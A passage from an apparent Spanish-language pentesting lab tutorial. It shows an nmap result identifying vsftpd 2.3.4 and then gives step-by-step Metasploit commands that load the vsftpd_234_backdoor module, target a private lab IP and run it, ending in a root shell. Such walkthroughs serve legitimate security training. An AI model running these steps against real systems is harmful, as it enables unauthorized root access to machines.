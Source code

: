 Resultado esperado:

```bash
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 2.3.4
```

🔎 ¡Esta versión es **vulnerable**!

---

#### ⚔️ PASO 3: Explotar con Metasploit

1. Abre Metasploit:

```bash
msfconsole
```

2. Busca el módulo adecuado:

```bash
search vsftpd
```

Verás:

```
exploit/unix/ftp/vsftpd_234_backdoor
```

3. Cargar el módulo:

```bash
use exploit/unix/ftp/vsftpd_234_backdoor
```

4. Ver opciones:

```bash
show options
```

5. Establece el objetivo:

```bash
set RHOSTS 192.168.1.110
```

6. Ejecuta el exploit:

```bash
run
```

---

#### ✅ Resultado esperado

Si todo sale bien, obtendrás una **sesión de shell**:

```bash
[*] Command shell session 1 opened
id
uid=0(root) gid=0(root)
```
